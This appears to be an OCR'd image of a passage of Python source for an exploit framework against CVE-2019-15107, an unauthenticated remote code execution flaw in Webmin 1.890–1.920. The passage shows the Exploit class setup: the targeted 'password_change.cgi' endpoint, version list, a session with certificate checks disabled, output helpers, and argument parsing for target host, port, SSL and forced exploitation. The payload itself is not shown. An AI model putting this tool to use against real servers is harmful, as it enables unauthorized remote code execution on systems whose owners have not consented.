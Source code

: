 ```python
	print(f"{colours.blue}\n[*] Exiting....{colours.end}\n")
	sys.exit(0);

#### Exploit Class ####
class Exploit():
	def __init__(self):
		self.endpoint = "password_change.cgi"
		self.versions = ["1.890", "1.900", "1.910", "1.920"]
		#Start a session
		self.session = requests.Session()
		self.session.verify = False

	#### Colour Helpers ####
	def fail(self, reason, die=True):
		if not self.args.accessible:
			print(f"{colours.red}[-] {reason}{colours.end}")
		else:
			print(f"Failure: {reason}")
		if die:
			sys.exit(0)

	def success(self, text):
		if not self.args.accessible:
			print(f"{colours.green}[+] {text}{colours.end}")
		else:
			print(f"Success: {text}")

	def warn(self, text):
		if not self.args.accessible:
			print(f"{colours.orange}[*] {text}{colours.end}")
		else:
			print(f"Warning: {text}")

	def info(self, text):
		if not self.args.accessible:
			print(f"{colours.blue}[*] {text}{colours.end}")
		else:
			print(f"Info: {text}")



	#### Argument Parsing ####
	def parseArgs(self):
		parser = argparse.ArgumentParser(description="CVE-2019-15107 Webmin Unauthenticated RCE (1.890-1.920) Framework")
		parser.add_argument("target", help="The target IP or domain")
		parser.add_argument("-b", "--basedir", help="The base directory of webmin (default: /)", default="/")
		parser.add_argument("-s", "--ssl", help="Specify to use SSL", default="http://",  const="https://", action="store_const")
		parser.add_argument("-p", "--port", type=int, default=10000, help="The target port (default: 10000)")
		parser.add_argument("--accessible", default=False, action="store_true", help="Remove ascii art")
		parser.add_argument("--force", default=False, action="store_true", help="Force exploitation with no checks")
		args = parser.parse_args()

		#Validation
		args.basedir = f"/{args.basedir}" if (args.basedir[0] != "/") else f"{args.basedir}"
		if args.port not in range(1,65535):
			self.fail(f"Invalid Port: {args.port}")
		self.args = args
```